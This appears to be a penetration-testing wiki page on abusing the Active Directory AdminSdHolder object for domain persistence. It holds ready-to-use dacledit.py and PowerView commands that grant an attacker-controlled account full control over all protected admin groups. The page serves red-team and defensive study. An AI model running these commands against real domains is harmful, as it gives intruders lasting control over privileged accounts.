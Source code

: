 ## Theory
AdminSdHolder protects domain objects against permission changes. "AdminSdHolder" either refers to a domain object, a "worker code" or an operation depending on the context.

The operation consists in the PDC (Principal Domain Controller) Emulator restoring pre-set permissions for high-privilege users every 60 minutes.

The AdminSdHolder object is located at `CN=AdminSdHolder,CN=SYSTEM,DC=DOMAIN,DC=LOCAL`.

## Exploit
Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL.

Let's say an attacker adds the following ACE to AdminSdHolder's DACL: `attackercontrolleduser: Full Control.`

At the next run of `SDProp`, `attackercontrolleduser` will have a `GenericAll` privilege over all protected objects (Domain Admins, Account Operators, and so on).
=== "UNIX-like"
    From UNIX-like systems, this can be done with Impacket's dacledit.py (Python).
    ```bash
    dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
    ```
    AdminSdHolder's DACL can then be inspected with the same utility.
    ```bash
    dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
    ```
=== "Windows"
    This can be done in PowerShell with `Add-DomainObjectAcl` from PowerSploit's PowerView module.
    ```bash
    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All
    ```
    AdminSdHolder's DACL can then be inspected with `Get-DomainObjectAcl`.
    ```bash
    # Inspect all AdminSdHolder's DACL
    Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

    # Inspect specific rights an object has on AdminSdHolder (example with a user)
    sid = Get-DomainUser "someuser" | Select-Object -ExpandProperty objectsid
    Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid}
    ```
